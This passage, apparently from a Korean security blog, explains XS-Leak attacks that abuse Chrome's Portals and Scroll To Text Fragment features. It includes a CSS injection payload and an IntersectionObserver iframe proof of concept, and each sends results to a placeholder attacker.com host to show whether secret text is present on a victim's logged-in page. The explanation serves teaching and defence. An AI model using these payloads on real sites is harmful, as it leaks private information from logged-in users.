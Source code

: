 portal은 iframe과 상당히 유사한 기능을 가지고 있으나 보안 관련 처리가 미숙하여 많은 문제가 발생할 수 있다. 만약 위 공격이 피해자의 권한(각종 은행 사이트 또는 플랫폼에 로그인이 되어있는 상태)으로 실행될 경우 로그인 된 사용자만이 볼 수 있는 페이지에서 어떠한 요소가 존재하는지 확인할 수 있고 공격자는 이를 추론하여 다양한 정보들을 추론 또는 유출할 수 있다.

### STTF (Scroll To Text Fragment)

STTF(Scroll To Text Fragement)도 portal과 마찬가지로 Chrome의 실험적 기능이다. 이는 페이지 내에 특정 텍스트로 바로 이동할 수 있도록 직접 링크할 수 있는 기능을 제공한다.

`#:~:text=` 문법을 사용하여 텍스트를 포함하고 브라우저가 이를 하이라이트하여 viewport로 가져온다.

```
https://example.com#:~:text=specific%20phrase
```

이와 같이 페이지에 접속하게 된다면 브라우저는 페이지에서 `specific phrase` 라는 텍스트를 찾아 자동으로 스크롤하고 하이라이트 하도록 시도한다. 이는 현재 브라우저에서 `ctrl+f` 또는 `cmd+f` 를 이용해서 페이지에 특정 택스트를 검색하는 기능과 동일한 역할을 수행한다.

STTF를 이용하면 페이지 내에 특정 텍스트를 검색하는 기능을 따로 개발자가 구현하지 않아도 되고 이는 브라우저상에서 사용자 경험을 향상시킨다는 이점이 존재한다. 이는 현재 많은 사용자들이 편리하게 사용하고 있는 기능중 하나에 속한다. 편리한 기능이지만 본 기능에서 XSLeak 취약점이 발현될 수 있는 문제가 존재한다. 공격자는 이를 악용하여 간접적인 정보 유출을 시도할 수 있다.

```css
:target::before {
  content: url(http://attacker.com/?confirmed_existence_of_Administrator_username);
}
```

공격자는 초기에 CSS Injection을 통해 위와 같은 코드를 삽입한 후 이후에 STTF 기능을 이용하여 페이지에 특정 텍스트(admin, administor, secret_data, 등)를 검색하려고 시도한다. 만약 검색하고자하는 텍스트가 페이지에 존재할 경우 공격자 서버로 텍스트 감지 성공 요청을 전송한다. 공격자는 자신의 서버에 로그를 확인하여 타겟 페이지에 어떠한 내용이 존재하는지 확인할 수 있다.

직접적으로 CSS injection을 이용하여 XSLeak을 진행하는 방법 외에도 `IntersectionObserver` API와 STTF를 연계하여 XSLeak 취약점을 발현시킬 수 있다. 해당 API를 활용할 경우 STTF 검색 대상 텍스트로 스크롤이 발생했는지 여부를 감지할 수 있다. 이를 이용하여 iframe과 같은 프레임 내부에 `IntersectionObserver`API를 설정하고 타겟 페이지의 스크롤 여부를 확인하여 스크롤이 발생할 경우 공격자에게 전송하는 방식으로 XSLeak 공격을 수행할 수 있다. 본 코드는 아래를 참고하여 변형한 방식의 공격 코드이다.

[Live DOM Viewer](https://software.hixie.ch/utilities/js/live-dom-viewer/?saved=11657)

```html
<p style="margin-bottom: 150vh">spacer</p>
<p>Target text to search</p>
<iframe
  src="data:text/html,
<script>
const observer = new IntersectionObserver(entries => {
    if (entries[0].isIntersecting) {
        fetch('https://attacker.com/leak?found=target_text');
    } else {
        fetch('https://attacker.com/leak?not_found=target_text');
    }
    observer.unobserve(document.body);
});
observer.observe(document.body);
</script>"
></iframe>
<p style="margin-bottom: 150vh">spacer</p>

<script>
  location.hash = "#:~:text=Target text";
</script>
```
